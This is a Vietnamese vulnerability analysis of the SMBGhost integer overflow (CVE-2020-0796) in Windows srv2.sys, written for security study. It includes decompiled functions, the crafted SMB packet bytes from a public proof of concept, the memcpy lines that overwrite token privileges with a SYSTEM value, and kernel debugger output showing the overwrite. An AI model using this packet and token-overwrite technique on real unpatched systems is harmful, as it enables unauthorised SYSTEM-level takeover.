







# CVE-2020-0796
-----------

# Tổng quan:
Tính năng compression được thêm vào SMBv3 từ phiên bản hệ điều hành Windows 10/Server version 1903 chứa lổ hỏng integer overflow được Microsoft xác nhận vào ngày 12/03/2020. Cho phép attacker có thể thực hiện Local Privilege Escalation (LPE) và Remote Code Execution (RCE). Ở đây sẽ chỉ nói về lỗ hỏng LPE.

**Phiên bản bị ảnh hưởng**:
- Windows 10 Version 1903 for 32-bit Systems
- Windows 10 Version 1903 for x64-based Systems
- Windows 10 Version 1903 for ARM64-based Systems
- Windows Server, version 1903 (Server Core installation)
- Windows 10 Version 1909 for 32-bit Systems
- Windows 10 Version 1909 for x64-based Systems
- Windows 10 Version 1909 for ARM64-based Systems
- Windows Server, version 1909 (Server Core installation)

# Phân tích quá trình Decompress của SMB:
Phân tích file `srv2.sys`, nhận thấy các hàm liên quan đến Decompress được gọi như sau:
``` js
    Srv2ReceiveHandler
            |
            |
            v
Srv2DecompressMessageAsync
            |
            |
            v
    Srv2DecompressData  ------->  SrvNetAllocateBuffer
            |
            |
            v
 SmbCompressionDecompress
 	    |
	    |
	    v
	memcpy
 ```
 
Đầu tiên hàm `Srv2ReceiveHandler` được gọi để nhận một smb data packet và gọi một hàm tương ứng với giao thức `ProtocolId`. Nếu `PrococolId` = 0x424D53FC, nó sẽ gọi hàm `Srv2DecompressMessageAsync`, hàm này sẽ tiến hành gọi hàm `Srv2DecompressData` để giải nén data packet. Hàm `Srv2DecompressData` sẽ gọi hàm `SrvNetAllocateBuffer` để cấp phát một `Alloc` dùng để lưu data sau khi giải nén, kế đến nó gọi hàm `SmbCompressionDecompress` để tiến hành giải nén data packet, sau cùng sẽ gọi hàm `memcpy`. Như vậy toàn bộ quá trình Decompress sẽ có các bước chính sau:
- 1. Allocate
- 2. Decompress
- 3. Copy

Theo tài liệu được Microsoft cung cấp, cấu trúc `COMPRESSION_TRANSFORM_HEADER` được sử dụng để gửi và nhận dữ liệu nén từ client và server. Nó có cấu trúc như sau:
``` c
typedef struct _COMPRESSION_TRANSFORM_HEADER
{
    ULONG ProtocolId;
    ULONG OriginalCompressedSegmentSize;
    USHORT CompressionAlgorithm;
    USHORT Flags;
    ULONG Offset;
} ;
```
Ở đây chúng ta chỉ tập trung vào 2 trường chính ở trên là:
- `OriginalCompressedSegmentSize` là kích thước của uncompressed data segment, tính theo byte.
- `Offset` là độ lệch tính theo byte giữa điểm bắt đầu của data được nén với điểm kết thúc của cấu trúc `_COMPRESSION_TRANSFORM_HEADER`.

Như vậy gói data packet được nén sẽ có dạng như sau:



``` c
typedef struct _ALLOCATION_HEADER
{
    // ...
    PVOID UserBuffer;
    // ...
} ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
{
    PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
 
    ULONG FinalCompressedSize = 0;
 
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}
```

Phân tích hàm `Srv2DecompressData`, nhận thấy hàm nhận vào một packet data nén `COMPRESSION_TRANSFORM_HEADER` (Header), tiến hành cấp phát một vùng nhớ (Alloc) bằng hàm `SrvNetAllocateBuffer` với tham số là tổng `Header->OriginalCompressedSegmentSize` + `Header->Offset`, sau đó giải nén dữ liệu được nén và copy dữ liệu không được nén vào `Alloc->Buffer`.



Lỗi integer overflow diễn ra khi `Srv2DecompressData` gọi hàm `SrvNetAllocateBuffer`, hàm `SrvNetAllocateBuffer` thực chất nhận 2 giá trị 64 bit, nhưng khi gọi hàm `SrvNetAllocateBuffer`, `Srv2DecompressData` chỉ truyền vào nó 2 giá trị 32bit (ULONG). Trong khi đó cả `OriginalCompressedSegmentSize` và `Offset` đều là ULONG, khi cộng chúng lại với nhau, có thể cho ra số lớn hơn 32bit. Vì vậy mà xảy ra lỗi integer overflow (Hiểu đơn giản là khi cộng 0xffffffff (`OriginalCompressedSegmentSize`) với 0x10 (`Offset`) sẽ cho ra giá trị 0xf0000000f nhưng hàm `SrvNetAllocateBuffer` chỉ nhận được giá trị 0x0000000f).


Lỗi integer overflow sẽ dẫn đến việc cấp phát vùng nhớ Alloc sai (kích thước cần được cấp phát nhỏ hơn kích thước thực tế), có thể gây ra lỗi buffer overflow:


Để biết lỗi buffer overflow có diễn ra hay không, và diễn ra như thế nào, ta sẽ đi phân tích các hàm `SrvNetAllocateBuffer` và `SmbCompressionDecompress`.
``` c
PALLOCATION_HEADER SrvNetAllocateBuffer(SIZE_T AllocSize, PALLOCATION_HEADER SourceBuffer)
{
v2 = *MK_FP(__GS__, 420i64);
  v3 = 0;
  v4 = a2;
  v5 = 0;
  if ( SrvDisableNetBufferLookAsideList || allocSize > 0x100100 )
  {
    if ( allocSize > 0x1000100 )
      return 0i64;
    v11 = SrvNetAllocateBufferFromPool(allocSize, allocSize);
  }
  else
  {
    if ( allocSize > 0x1100 )
    {
      _RCX = allocSize - 256;
      __asm
      {
        bsr     rdx, rcx
        bsf     rax, rcx
      }
      if ( (_DWORD)_RDX == (_DWORD)_RAX )
        v3 = _RDX - 12;
      else
        v3 = _RDX - 11;
    }
    v6 = SrvNetBufferLookasides[(unsigned __int64)v3];
    v7 = *(_DWORD *)v6 - 1;
    if ( (unsigned int)(unsigned __int16)v2 + 1 < *(_DWORD *)v6 )
      v7 = (unsigned __int16)v2 + 1;
    v8 = (unsigned int)v7;
    v9 = *(_QWORD *)(v6 + 32);
    v10 = *(_QWORD *)(v9 + 8 * v8);
    if ( !*(_BYTE *)(v10 + 0x70) )
      PplpLazyInitializeLookasideList(v6, *(_QWORD *)(v9 + 8 * v8));
    ++*(_DWORD *)(v10 + 20);
    v11 = (unsigned __int64)ExpInterlockedPopEntrySList((PSLIST_HEADER)v10);
    if ( !v11 )
    {
      ++*(_DWORD *)(v10 + 24);
      v12 = *(_DWORD *)(v10 + 44);
      v13 = *(_DWORD *)(v10 + 40);
      v14 = *(_DWORD *)(v10 + 36);
      LODWORD(v15) = sub_1C00110B0(*(int (**)(void))(v10 + 48));
      v11 = v15;
    }
    v5 = 2;
  }
  if ( v11 )
  {
    *(_WORD *)(v11 + 0x10) |= v5;
    *(_WORD *)(v11 + 0x12) = v3;
    *(_WORD *)(v11 + 0x14) = v2;
    if ( v4 )
    {
      v24 = *(_DWORD *)(v4 + 0x24);
      if ( v24 >= *(_DWORD *)(v11 + 0x20) )
        v24 = *(_DWORD *)(v11 + 0x20);
      v25 = *(void **)(v11 + 0x18);
      *(_DWORD *)(v11 + 0x24) = v24;
      memcpy(v25, *(const void **)(v4 + 0x18), v24);
      v26 = *(_WORD *)(v4 + 0x16);
      if ( v26 )
      {
        *(_WORD *)(v11 + 0x16) = v26;
        memcpy((void *)(v11 + 0x64), (const void *)(v4 + 0x64), 0x10i64 * *(_WORD *)(v4 + 0x16));
      }
    }
    else
    {
      *(_DWORD *)(v11 + 36) = 0;
    }
  }
  return v11;
}
```

Đoạn code trên lấy từ Pseuducode của IDA Pro, nhìn khá khó hiểu. Tuy nhiên ta có thể hiểu đơn giản bằng việc nhìn vào code được viết lại bởi [Zecops](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/):
``` c
PALLOCATION_HEADER SrvNetAllocateBuffer(SIZE_T AllocSize, PALLOCATION_HEADER SourceBuffer)
{
    // ...
 
    if (SrvDisableNetBufferLookAsideList || AllocSize > 0x100100) {
        if (AllocSize > 0x1000100) {
            return NULL;
        }
        Result = SrvNetAllocateBufferFromPool(AllocSize, AllocSize);
    } else {
        int LookasideListIndex = 0;
        if (AllocSize > 0x1100) {
            LookasideListIndex = /* some calculation based on AllocSize */;
        }
 
        SOME_STRUCT list = SrvNetBufferLookasides[LookasideListIndex];
        Result = /* fetch result from list */;
    }
 
    // Initialize some Result fields...
 
    return Result;
}
```

Hàm `SrvNetAllocateBuffer` sẽ nhận vào kích thước cần cấp phát, sau đó kiểm tra kích thước có lớn hơn 0x100100 hay không, nếu lớn hơn thì trả về NULL. Hàm này còn kiểm tra thêm biến `SrvDisableNetBufferLookAsideList`, tuy nhiên, tôi không tìm thấy bất cứ tài liệu nào nói về biến này, và nó được set 0 theo mặc định, nên có lẽ nó không quan trọng lắm.

Nếu điều kiện thỏa, hàm sẽ tiếp tục tích toán một giá trị index dựa trên AllocSize nhận vào, sau đó lấy ra một giá trị trong mảng `SrvNetBufferLookasides` (mảng này có 9 phần tử) dựa trên index tính toán được và tiến hành cấp phát. Từ code assembly, Zecops đã sử dụng `python` để tính ra các kích thước ứng với từng index:
``` py
>>> [hex((1 << (i + 12)) + 256) for i in range(9)]
[‘0x1100’, ‘0x2100’, ‘0x4100’, ‘0x8100’, ‘0x10100’, ‘0x20100’, ‘0x40100’, ‘0x80100’, ‘0x100100’]
```

Như vậy với yêu cầu cấp phát kích thước nhỏ hơn hoặc bằng 0x1100, hàm sẽ cấp phát vùng nhớ có kích thước 0x1100, với yêu cầu cấp phát kích thước lớn hơn 0x1100 và nhỏ hơn hoặc bằng 0x2100, hàm sẽ cấp phát vùng nhớ có kích thước 0x2100, tương tự với các yêu cầu cấp phát lớn hơn.

Sau khi cấp phát xong, hàm sẽ trả về một địa chỉ lưu một cấu trúc mà Zcops đã đặt tên là `ALLOCATION_HEADER`. Theo tìm hiểu thì cấu trúc này sẽ chứa dữ liệu như sau:


Một điều thú vị là `ALLOCATION_HEADER` lại nằm ngay bên dưới `ALLOCATION_HEADER->UserBuffer`, nếu có thể buffer overflow `UserBuffer`, thì ta có thể ghi giá trị tùy ý vào `ALLOCATION_HEADER`.




Tiếp đến ta sẽ xem hàm `SmbCompressionDecompress` làm gì:
``` c
__int64 __fastcall SmbCompressionDecompress(int CompressionAlgorithm, __int64 DataCompressed, __int64 SizeCompressed, __int64 AllocUserbufferDecompress, unsigned int OriginalCompressedSegmentSize, __int64 FinalCompressedSize)
{
  PVOID v6; // rdi@1
  __int64 v7; // r14@1
  __int64 v8; // r15@1
  int v9; // ebx@2
  int v10; // ecx@3
  int v11; // ecx@4
  signed __int16 v12; // bx@6
  __int64 v13; // rsi@12
  unsigned int v14; // ebp@12
  int v16; // [sp+40h] [bp-28h]@1
  SIZE_T NumberOfBytes; // [sp+70h] [bp+8h]@1

  v16 = 0;
  v6 = 0i64;
  LODWORD(NumberOfBytes) = 0;
  v7 = AllocUserbufferDecompress;
  v8 = DataCompressed;
  if ( !CompressionAlgorithm )
    goto LABEL_2;
  v10 = CompressionAlgorithm - 1;
  if ( v10 )
  {
    v11 = v10 - 1;
    if ( v11 )
    {
      if ( v11 != 1 )
      {
LABEL_2:
        v9 = 0xC00000BB;
        return (unsigned int)v9;
      }
      v12 = 4;
    }
    else
    {
      v12 = 3;
    }
  }
  else
  {
    v12 = 2;
  }
  if ( RtlGetCompressionWorkSpaceSize((unsigned __int16)v12, &NumberOfBytes, &v16) < 0
    || (v6 = ExAllocatePoolWithTag((POOL_TYPE)512, 0i64, 0x2532534Cu)) != 0i64 )
  {
    v13 = FinalCompressedSize;
    v14 = OriginalCompressedSegmentSize;
    v9 = RtlDecompressBufferEx2((unsigned __int16)v12, v7, OriginalCompressedSegmentSize, v8);
    if ( v9 >= 0 )
      *(_DWORD *)v13 = v14;
    if ( v6 )
      ExFreePoolWithTag(v6, 0x2532534Cu);
  }
  else
  {
    v9 = 0xC000009A;
  }
  return (unsigned int)v9;
}
```

Code bên trên được lấy từ pseudocode của IDA, nếu bạn không hiểu đoạn code trên làm gì, có thể xem code được viết lại bởi Zecops:
``` c
NTSTATUS SmbCompressionDecompress(
    USHORT CompressionAlgorithm,
    PUCHAR UncompressedBuffer,
    ULONG  UncompressedBufferSize,
    PUCHAR CompressedBuffer,
    ULONG  CompressedBufferSize,
    PULONG FinalCompressedSize)
{
    // ...
 
    NTSTATUS Status = RtlDecompressBufferEx2(
        ...,
        FinalUncompressedSize,
        ...);
    if (Status >= 0) {
        *FinalCompressedSize = CompressedBufferSize;
    }
 
    // ...
 
    return Status;
}
```

Hàm này cơ bản thực hiện giải nén data bị nén và lưu vào `Alloc->UserBuffer` + `Offset`. Nếu giải nén thành công, tham số `FinalCompressedSize` sẽ được gán bằng tham số `CompressedBufferSize`, là giá trị `OriginalCompressedSegmentSize` được truyền từ hàm `Srv2DecompressData`.

Quay trở lại hàm `Srv2DecompressData`, sau khi thực hiện hàm `SmbCompressionDecompress`, hàm sẽ tiếp tục so sánh giá trị `FinalCompressedSize` và `OriginalCompressedSegmentSize` có bằng nhau hay không, và `Status` trả về có < 0. 
``` c
if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) { // bypass
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
}
```

Như đã nói ở trên, nếu việc giải nén thành công thì `FinalCompressedSize` và `OriginalCompressedSegmentSize` sẽ bằng nhau và `Status` trả về sẽ lớn hoặc bằng 0. Vì vậy, nếu việc giải nén thành công thì đoạn code trong hàm if ở trên sẽ không được chạy. Ta sẽ tiến hành phân tích đoạn code tiếp theo:
``` c
if (Header->Offset > 0) {
        memcpy( // copy raw data into UserBuffer 
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
}
```

Đoạn code này sẽ kiểm tra `Header->Offset` > 0. Giá trị `Offset` chính là độ lệch giữa vùng data bị nén với phần cuối của `Header`, tương ứng với kích thước của vùng data không được nén. Sau đó gọi hàm `memcpy` để copy vùng data không được nén vào đầu `Alloc->UserBuffer`.

Như vậy, nếu có thể dùng lỗi buffer overflow, ghi đè qua vùng `Alloc Header` để thay đổi giá trị con trỏ `Alloc->UserBuffer` đến địa chỉ A, địa chỉ A sẽ chứa dữ liệu không được giải nén mà client gửi đi. Để rõ hơn, ta sẽ tiến hành phân tích [POC](https://github.com/danigargu/CVE-2020-0796) của Daniel García Gutiérrez ([@danigargu](https://twitter.com/danigargu)) và Manuel Blanco Parajón ([@dialluvioso_](https://twitter.com/dialluvioso_)), sau đó debug để hiểu rõ hơn.

# Phân tích POC:
POC thực hiện các điều sau:
- Lấy token của chính nó.
- Tạo một mảng `buffer` có kích thước 0x1110, lưu vào phần đầu mảng 0x1108 ký tự 'A', sau đó lưu vào giá trị `[Token + 0x40]` đã lấy ra ở trên. Mục đích của việc này là gì ta sẽ nói sau.
- Nén dữ liệu trong mảng `buffer` lại và lưu vào mảng `compressed_buffer`.
- Tạo một mảng `buf` chứa dữ liệu như bên dưới:
``` c
  const uint8_t buf[] = {
		/* NetBIOS Wrapper */
		0x00,
		0x00, 0x00, 0x33,

		/* SMB Header */
		0xFC, 0x53, 0x4D, 0x42, /* protocol id */
		0xFF, 0xFF, 0xFF, 0xFF, /* original decompressed size, trigger arithmetic overflow */
		0x02, 0x00,             /* compression algorithm, LZ77 */
		0x00, 0x00,             /* flags */
		0x10, 0x00, 0x00, 0x00, /* offset */
	};
```
- Sau đó tạo một mảng `packet` có kích thước: `sizeof(buf) + 0x10 + len`, với `len` là kích thước của `buffer` sau khi nén ở trên (kích thước **data** của `compressed_buffer`).
- Copy dữ liệu của mảng `buf` vào `packet`, tiếp đến là copy giá trị `0x1FF2FFFFBC` vào và đến dữ liệu của mảng `compressed_buffer`:
``` c
  memcpy(packet, buf, sizeof(buf));
	*(uint64_t*)(packet + sizeof(buf)) = 0x1FF2FFFFBC;
	*(uint64_t*)(packet + sizeof(buf) + 0x8) = 0x1FF2FFFFBC;
	memcpy(packet + sizeof(buf) + 0x10, compressed_buffer, len);
```
- Gửi `packet` đến SMB server.
- Sau bước trên, chương trình POC đã được nâng lên quyền system, tiếp theo POC sẽ OpenProcess winlogon.exe và tiêm shellcode open cmd vào.

Sau đây tôi sẽ giải thích các vướng mắc trong POC đã nêu ở trên.

Tại sao mảng `buffer` lại cần tạo với kích thước là 0x1110 byte, và lưu vào trong 0x1108 ký tự A và một giá trị `[token + 0x40]`. Nhìn chung, mục đích của Poc này là sử dụng các hàm trong `SMB` để thay đổi giá trị `token->Privileges` của chính nó (`[Token + 0x40]`).

Phần SMB Header ta sẽ quan tâm đến original decompressed size và Offset, lần lượt có giá trị là 0xffffffff và 0x00000010. Mục đích để SMB bị dính lỗi integer overflow, từ đó cấp phát một mảng `Alloc->Buffer` có kích thước chỉ là 0x1100 (< 0x1110 + Raw data size).

Giá trị `0x1FF2FFFFBC` được lưu vào 0x10 byte sau phần header là một giá trị được lưu trong `token->Privileges->Present` và `token->Privileges->Enabled` của một process SYSTEM, tương ứng với việc nếu process nào có `token->Privileges->Present` và `token->Privileges->Enabled` bằng với `0x1FF2FFFFBC`, process đó sẽ có đặc quyền như một process SYSTEM.

Từ các thông tin trên, ta có thể hình dùng rằng POC đang muốn các hàm trong SMB thay đổi giá trị `token->Privileges->Present` và `token->Privileges->Enabled` của nó thành `0x1FF2FFFFBC`. Để biết được chính xác, ta sẽ vào phần debug kernel.

# Debug Kernel
Đầu tiên, ta đặt breakpoint ở đầu hàm `Srv2DecompressData`
``` 
0: kd> bm srv2!Srv2DecompressData
  1: fffff807`17c47e60 @!"srv2!Srv2DecompressData"
0: kd> bl
     1 e Disable Clear  fffff807`17c47e60     0001 (0001) srv2!Srv2DecompressData
```

Sau đó chạy POC, hàm `Srv2DecompressData` sẽ được gọi, kernel sẽ dừng lại ở đầu hàm `srv2!Srv2DecompressData`.

Tiến hành xem dữ liệu của Header:
``` 
1: kd> dd ffffd10e92347c10
ffffd10e`92347c10  424d53fc ffffffff 00000002 00000010
ffffd10e`92347c20  f2ffffbc 0000001f f2ffffbc 0000001f
ffffd10e`92347c30  403fffff 0f000741 701104ff 8dafb9e7
ffffd10e`92347c40  00ffffae 00000000 00000000 00000000
```

Đây là dữ liệu của mảng `packet` mà POC đã gửi đến SMB như phân tích POC bên trên, 0x10 byte đầu là phần SMB Header, 0x10 byte tiếp theo chứa 2 lần giá trị `0x1FF2FFFFBC` là vùng raw data và 0x13 byte tiếp theo là dữ liệu buffer đã được nén. Như vậy toàn bộ kích thước của Header là 0x33 byte.

Đi đến lúc gọi hàm `SrvNetAllocateBuffer` để xem tham số truyền vào thì đúng là hàm `SrvNetAllocateBuffer` nhận vào tham số `0xf` và `null`.


Giá trị trả về của hàm `SrvNetAllocateBuffer` là một con trỏ trỏ đến một cấu trúc `ALLOCATION_HEADER` (theo cách gọi trong bài viết này).
```
1: kd> dd rax
ffffd10e`94729150  ca9a7573 417b1178 32fe5f70 dc85f193
ffffd10e`94729160  00000002 00000001 94728050 ffffd10e
ffffd10e`94729170  00001100 00000000 00001278 75881029
```


Tiếp đến hàm `SmbCompressionDecompress` sẽ được gọi, nó sẽ giải nén và ghi dữ liệu được giải nén vào `Alloc->Buffer + Header -> Offset`
```
1: kd> dd ffffd10e94728050
ffffd10e`94728050  1050118b 3318f0fa 00000000 00000000
ffffd10e`94728060  41414141 41414141 41414141 41414141
ffffd10e`94728070  41414141 41414141 41414141 41414141
...
ffffd10e`94729150  41414141 41414141 41414141 41414141
ffffd10e`94729160  41414141 41414141 afb9e770 ffffae8d
ffffd10e`94729170  00001100 00000000 00001278 75881029

1: kd> dt _sep_token_privileges ffffae8dafb9e770
nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : 0x00000006`02880000
   +0x008 Enabled          : 0x800000
   +0x010 EnabledByDefault : 0x40800000

```



Lúc này `Alloc->Buffer` đã bị ghi đè thành địa chỉ `[Token + 0x40]`. Hàm `Srv2DecompressData` tiến hành gọi `memcpy(Alloc->UserBuffer, (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER), Header->Offset);` để copy raw Data vào `Alloc->UserBuffer`. Tuy nhiên `Alloc->UserBuffer` đã bị ghi đè thành `Token->Privileges` nên raw Data sẽ được ghi vào `Token->Privileges`:
```
1: kd> dt _sep_token_privileges ffffae8dafb9e770
nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : 0x0000001f`f2ffffbc
   +0x008 Enabled          : 0x0000001f`f2ffffbc
   +0x010 EnabledByDefault : 0x40800000
```



Đến đây, chương trình POC đã có quyền SYSTEM, việc tiếp theo là mở một chương trình SYSTEM (winlogon.exe) và tiêm shellcode mở cmd lên.

# Tham khảo
[SMB2 COMPRESSION_TRANSFORM_HEADER](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0)

[Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)

[CVE-2020-0796 Windows SMBv3 LPE Exploit POC Analysis](https://paper.seebug.org/1165/)

[Token Abuse for Privilege Escalation in Kernel](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/how-kernel-exploits-abuse-tokens-for-privilege-escalation)

<p align="right">
<b><i>DatntSec. Viettel Cyber Security.<i><b>
</p>


